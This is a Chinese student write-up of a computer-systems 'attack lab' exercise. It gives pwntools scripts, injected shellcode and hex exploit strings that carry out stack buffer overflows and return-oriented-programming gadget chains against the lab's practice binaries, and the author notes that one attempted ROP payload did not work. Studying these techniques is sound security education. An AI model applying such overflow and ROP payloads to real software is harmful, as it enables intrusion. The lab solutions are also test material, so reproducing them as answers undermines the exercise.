

## Part1

### Phase 1

要求：让程序跳转到touch1()

一个简单的栈溢出



```
from pwn import *
import base64
touch1 = 0x004017C0					#要跳转的目的地址
payload = 0x28*"a"+p64(touch1)		
sixteen = base64.b16encode(payload)	 #字符串转十六进制
print(sixteen)
```

将得到的字符串，放入`result1.txt`文件中，并用空格每两个隔开

输入的字符串通过`hex2raw`转换，注入到ctarget文件中。


### Phase2

这次执行`touch2`，需要传一个参数，64位，需要用寄存器来传值


```
movq $0x59b997fa,%rdi
pushq $0x004017ec
retq
```

如上汇编程序code.s，使用 `gcc -c code.s` 编译，再用 `objdump -d code.o > code.d` 反汇编就能得到十六进制表示的机器代码，放入栈顶。然后在返回地址的位置上放上栈顶的地址即可。

```
0000000000000000 <.text>:
   0:	48 c7 04 25 00 00 00 	movq   $0x59b997fa,0x0
   7:	00 fa 97 b9 59 
   c:	68 ec 17 40 00       	pushq  $0x4017ec
  11:	c3                   	retq 
```

在`Gets`函数下断点


结果

```
48 c7 c7 fa 97 b9 59
68 ec 17 40 00
c3
51 51 51
51 51 51 51 51
51 51 51 51 51 51 51 51 51
51 51 51 51 51 51 51 51 51 51
78 dc 61 55 00 00 00 00
```


---


？？堆栈不可执行，，，

```python
from pwn import *
import base64
cookie = 0x59b997fa
touch2 = 0x04017EC
pop_rdi = 0x040141b
payload = 0x20 * "a" + p64(cookie) + p64(pop_rdi)+p64(touch2)
sixteen = base64.b16encode(payload)
length = len(sixteen)
i=length
while(i!=0):
    front = sixteen[0:i*2]
    last = sixteen[i*2:len(sixteen)]
    sixteen = front + " " + last
    i-=1
print(last)
```

自己做的，不知道为什么不可以，用`pop rdi;ret`来传寄存器的值（使用的指令有限制）

---


### Phase3


touch2传的参数，是int值，而touch3传的却是地址。

在指导文件中告诉我们，当函数`hexmatch`和`strncmp`被调用时，它们将数据推送到堆栈上，覆盖保存`getbuf`使用的缓冲区的内存部分。所以我们不能直接将数据保存在`getbuf`的栈中，不然传过去后，在接下来的操作，会把字符串所在地址覆盖掉。

考虑调用它之前的栈中。因为函数调用时，还未开辟空间（rsp-28h），此时的栈顶还是（getbuf上层函数的栈），正我们需要的。


所以，栈顶是`0x5561dca0`，但是调用call指令执行的时候，还会把返回地址压栈，字符串的地址为`0x5561dca8`

原程序修改为

```
movq $0x5561dca8,%rdi
pushq $0x004018FA
retq
```

对应的机器码

```
0000000000000000 <.text>:
   0:	48 c7 c7 a8 dc 61 55 	mov    $0x5561dca8,%rdi
   7:	68 fa 18 40 00       	pushq  $0x4018fa
   c:	c3                   	retq   
```

在栈上布置注入代码和覆盖返回地址还是和之前一样，唯一区别就是字符串的地址在a0.

cookie是0x59b997fa，对应的字符串表示形式是3539623939376661h

```
48 c7 c7 a8 dc 61 55
68 fa 18 40 00
c3
41 41 41 41 41 41 41
41 41 41 41 41 41 41 41 41 41
41 41 41 41 41 41 41 41 41 41
78 dc 61 55 00 00 00 00
35 39 62 39 39 37 66 61
```


## Part2

### Phase4

`popq %rax` 				机器码：`58 90`					 地址：`0x4019ab`

`movq %rax,%rdi`		机器码：`48 89 c7`				地址：`0x4019a2`

```
00000000004019a7 <addval_219>:
  4019a7:	8d 87 51 73 58 90    	lea    -0x6fa78caf(%rdi),%eax
  4019ad:	c3                   	retq    
```

```
00000000004019a0 <addval_273>:
  4019a0:	8d 87 48 89 c7 c3    	lea    -0x3c3876b8(%rdi),%eax
  4019a6:	c3  
```

```
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
ab 19 40 00 00 00 00 00		<= pop rax
fa 97 b9 59 00 00 00 00		<= cookie
a2 19 40 00 00 00 00 00
ec 17 40 00 00 00 00 00
```

因为pop rax是返回地址，此时rsp已经加回去，也就是在pop rax这个位置，所以pop后，rsp指向下一条地址，所以把cookie放在下面


### Phase5

将cookie传入，并将地址传给rdi。

由于开启了alsr，地址不确定，考虑使用rsp标记的地址。

又因为有覆盖的问题，所以地址需要有一定的偏移量。但是没有add这样的指令，考虑使用lea。

步骤：

* 将`rsp`传送给`rdi`
* 计算字符串的偏移量，传送到`rsi`
* `lea (%rdi,%rsi,1),%rax`，将字符串的首地址传给`rax`
* 将`rax`传给`rdi`
* 调用`touch3`函数

| 阶段 | 代码                      | 机器码      | 地址     |
| :--: | ------------------------- | ----------- | -------- |
|  1   | movq %rsp, %rax           | 48 89 e0    | 0x401a06 |
|  1   | movq %rax, %rdi           | 48 89 c7    | 0x4019a2 |
|  2   | popq %rax                 | 58          | 0x4019cc |
|  2   | movl %eax, %edx           | 89 c2       | 0x4019dd |
|  2   | movl %edx, %ecx           | 89 d1       | 0x401a70 |
|  2   | movl %ecx, %esi           | 89 ce       | 0x401a13 |
|  3   | lea    (%rdi,%rsi,1),%rax | 48 8d 04 37 | 0x4019d6 |
|  4   | movq %rax, %rdi           | 48 89 c7    | 0x4019a2 |

```
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00	<= 覆盖量
06 1a 40 00 00 00 00 00 		<=rax = rsp	
a2 19 40 00 00 00 00 00 		<=rdi = rax = rsp				 1	
cc 19 40 00 00 00 00 00 		<=pop rax				     	 2
48 00 00 00 00 00 00 00 		<=0x48(偏移量)72			 	   3	
dd 19 40 00 00 00 00 00 		<=edx = eax				      	  4
70 1a 40 00 00 00 00 00 		<=ecx = edx = eax		    	  5
13 1a 40 00 00 00 00 00 		<=esi = ecx = edx = eax			  6
d6 19 40 00 00 00 00 00 		<=rax = rdi + rsi				 7
a2 19 40 00 00 00 00 00 		<=rdi = rax					     8	
fa 18 40 00 00 00 00 00 		<=函数地址						  9
35 39 62 39 39 37 66 61 00										10
```

因为此刻布置好的栈中，rsp距离字符串刚好10个字节，但执行这一句的时候，pop 返回地址，rsp+8，所以记录在rdi里面的地址距离字符串的地址是9个字节，也就是9*8=72（0x48）.


